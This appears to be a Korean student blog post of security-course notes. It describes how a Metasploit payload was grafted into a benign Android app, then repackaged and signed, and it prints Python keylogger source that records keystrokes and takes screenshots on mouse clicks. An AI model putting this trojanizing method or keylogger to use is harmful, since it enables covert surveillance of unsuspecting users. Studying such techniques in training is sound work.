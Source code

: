 ```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 3日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 3日차 수업 정리한 내용입니다.
image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
#published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/d5bbqKYu51w' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 3일자 수업

### 1. 악성앱을 정상앱 이식

#### 1-1. 악성앱 및 정상앱 디컴파일

![day3-1.png](/assets/img/docs/appsec/day3/1.png){:.lead width="800" height="100" loading="lazy"}
decompile 과정.
{:.figcaption}

지난 시간에 만든 악성앱 metasploit 앱과 이번 시간에 공유 해주신 Root Detect 앱(정상앱)을 디컴파일을 해줍니다.
{:.lead}

#### 1-2. AndroidManifest 및 Main Activity 수정

![day3-2.png](/assets/img/docs/appsec/day3/2.png){:.lead width="800" height="100" loading="lazy"}
악성앱의 AndroidManifest를 Normal앱으로 이식.
{:.figcaption}

![day3-3.png](/assets/img/docs/appsec/day3/3.png){:.lead width="800" height="100" loading="lazy"}
악성앱의 Main Activity를 Normal앱으로 이식.
{:.figcaption}

metasploit앱의 androidmanifest.xml Permission 관련 부분과 mainbroadcasreceiver 및 service 부분을 일부를 정상앱의 androidmanifest.xml로 copy를 해줍니다.
{:.lead}

#### 1-3. smali 패키지 일부 Copy

![day3-4.png](/assets/img/docs/appsec/day3/4.png){:.lead width="800" height="100" loading="lazy"}
악성앱의 smali부분을 Normal앱으로 Copy
{:.figcaption}

또한 metasploit의 Mainactivity일부 smali 코드를 정상앱으로 복사해줍니다.
{:.lead}

#### 1-4. 일반앱을 Re-Compile(Re-package)

![day3-5.png](/assets/img/docs/appsec/day3/5.png){:.lead width="800" height="100" loading="lazy"}
Re-package 과정.
{:.figcaption}

앞서 모든 수정한 값들을 저장하고 repackaging 과정을 진행해줍니다.
{:.lead}

#### 1-5. 일반앱 Signed 과정

![day3-6.png](/assets/img/docs/appsec/day3/6.png){:.lead width="800" height="100" loading="lazy"}
Normal 앱 Signed 과정.
{:.figcaption}

앞서 발급 받은 keystore 키를 가지고, Signed 과정을 진행해줍니다.

#### 1-6. NOX 설치 결과 확인 및 kali metasploit 확인

![day3-7.png](/assets/img/docs/appsec/day3/7.png){:.lead width="800" height="100" loading="lazy"}
Nox 실행 확인.
{:.figcaption}

집에 와서 vmware kali를 실행 했더니 127.0.0.1 로컬로만 돌아서 서버에 접속한 결과를 확인 못했는데(교육장에선 잘 됨) 추후 사진 첨부 하겠습니다.
{:.lead}

### 2. python keylogger

#### 2-1. 파이썬으로 keylogger

```python
from pynput import keyboard
from datetime import datetime
import pygetwindow
import pyautogui
import time
import threading

# # print(keyboard)

# def on_press(key):
#     print(key) # key 입력값 출력

# def on_press(key):
#     print(pygetwindow.getActiveWindow().title, datetime.now(), key) # datetime 출력

# def capture():
#     while True:
#         im2 = pyautogui.screenshot(str(datetime.now()).replace(":", "") + "_" + '.png')
#         time.sleep(5) # 화면 capture 출력 

# th = threading.Thread(target = capture, args = ())
# th.start

# def getMouse():
#     with mouse.Listener(on_click = on_click) as listener:
#         listener.join()


# with keyboard.Listener(on_press = on_press, on_release = None) as listener:
#     listener.join()

def on_click(x, y, button, pressed):
    try:                
        pyautogui.screenshot(str(datetime.now()).replace(":","") + "_" + str(x)+ "_" + str(y) +"_.png")
    except:
        pass

def getMouse():
    with mouse.Listener(on_click = on_click) as listener:
        listener.join()
    
def on_press(key):
    print(pygetwindow.getActiveWindow().title, datetime.now(), key)

th = threading.Thread(target = getMouse, args=())
th.start()

with keyboard.Listener(on_press = on_press, on_release = None) as listener:
    listener.join()
```


